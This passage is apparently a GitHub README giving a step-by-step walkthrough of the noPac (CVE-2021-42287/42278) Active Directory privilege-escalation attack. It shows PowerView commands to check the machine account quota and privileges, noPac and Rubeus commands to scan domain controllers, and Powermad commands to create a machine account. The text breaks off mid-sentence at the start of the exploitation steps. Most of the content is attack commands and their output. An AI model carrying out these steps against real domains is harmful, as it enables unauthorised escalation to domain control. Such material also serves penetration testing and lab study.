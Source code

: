 Thanks for : https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html

To exploit this requires 3 things, at least 1 DC not patched, any valid domain user account and a Machine Account Quota (MAQ) above 0

Check MAQ value in domain (default 10)

	. .\PowerView.ps1
	Get-DomainObject ("DC=child,DC=valhalla,DC=Local") | select ms-ds-machineaccountquota

	ms-ds-machineaccountquota
	-------------------------
							10

this will do also, if you are seing something more than 0 , it is okay

	(((Get-DomainObject -Domain (Get-NetDomain).Name)) | where { $_.'ms-ds-machineaccountquota' }).'ms-ds-machineaccountquota'


Check if domain users has rights

	PS C:\Users\testuser\Desktop> ((Get-DomainPolicy -Policy DC).PrivilegeRights | select SeMachineAccountPrivilege)

	SeMachineAccountPrivilege
	-------------------------
	*S-1-5-11

	PS C:\Users\testuser\Desktop> ConvertFrom-SID S-1-5-11
	Authenticated Users
							
							
To scan is dc vulnerable use this : https://github.com/cube0x0/noPac

if vulnerable, it will return a small size ticket

	 .\noPac.exe scan -domain child.valhalla.local -user testuser -pass 'Pass123!'
	[+] Got TGT from kabil.child.valhalla.local. Ticket size: 577
	
	
You can also use this : https://github.com/GhostPack/Rubeus

it will return small ticket

	.\Rubeus.exe asktgt /user:testuser /password:Pass123! /domain:child.valhalla.local /dc:kabil.child.valhalla.local /nowrap /nopac
	
# Exploitation

we will create a new machine account with  : https://github.com/Kevin-Robertson/Powermad

	. .\Powermad.ps1
	New-MachineAccount -MachineAccount TestMachine -Domain child.valhalla.local -DomainController kabil.child.valhalla.local
	Enter a password for the new machine account: ********
	[+] Machine account TestMachine added

You can check is with 
